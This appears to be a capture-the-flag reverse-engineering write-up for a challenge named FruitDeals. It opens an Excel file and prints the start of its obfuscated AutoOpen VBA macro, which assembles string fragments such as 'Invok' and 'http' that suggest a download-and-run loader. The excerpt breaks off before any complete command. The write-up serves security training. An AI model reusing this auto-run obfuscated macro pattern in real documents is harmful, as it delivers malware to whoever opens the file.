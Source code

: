 Author :
`By Samintell (@samintell on discord)`

Value : `410 Points`

Solve : `239`

Attachments : <a href="assets/challenge/reverse/FruitDeals/deals.xlsm">deals.xlsm</a>

## Solution

Opening the Excel file with Microsoft Office, we can see that there is macro in it.

<br>
<p align="center">
	<img src="assets/img/reverse/FruitDeals/1-Macro.png">
</p>
<br>

Editing the macro called `AutoOpen` and we can see this macro (full code bellow).

```vb
Sub AutoOpen()
Dim Retval
Dim f As String
Dim t53df028c67b2f07f1069866e345c8b85, qe32cd94f940ea527cf84654613d4fb5d, e5b138e644d624905ca8d47c3b8a2cf41, tfd753b886f3bd1f6da1a84488dee93f9, z92ea38976d53e8b557cd5bbc2cd3e0f8, xc6fd40b407cb3aac0d068f54af14362e As String
xc6fd40b407cb3aac0d068f54af14362e = "$OrA, "
If Sheets("Sheet2").Range("M62").Value = "Iuzaz/iA" Then
xc6fd40b407cb3aac0d068f54af14362e = xc6fd40b407cb3aac0d068f54af14362e + "$jri);"
End If
If Sheets("Sheet2").Range("G80").Value = "bAcDPl8D" Then
xc6fd40b407cb3aac0d068f54af14362e = xc6fd40b407cb3aac0d068f54af14362e + "Invok"
End If
e5b138e644d624905ca8d47c3b8a2cf41 = " = '"
If Sheets("Sheet2").Range("P31").Value = "aI3bH4Rd" Then
e5b138e644d624905ca8d47c3b8a2cf41 = e5b138e644d624905ca8d47c3b8a2cf41 + "http"
End If
If Sheets("Sheet2").Range("B50").Value = "4L3bnaGQ" Then
e5b138e644d624905ca8d47c3b8a2cf41 = e5b138e644d624905ca8d47c3b8a2cf41 + "://f"
End If
```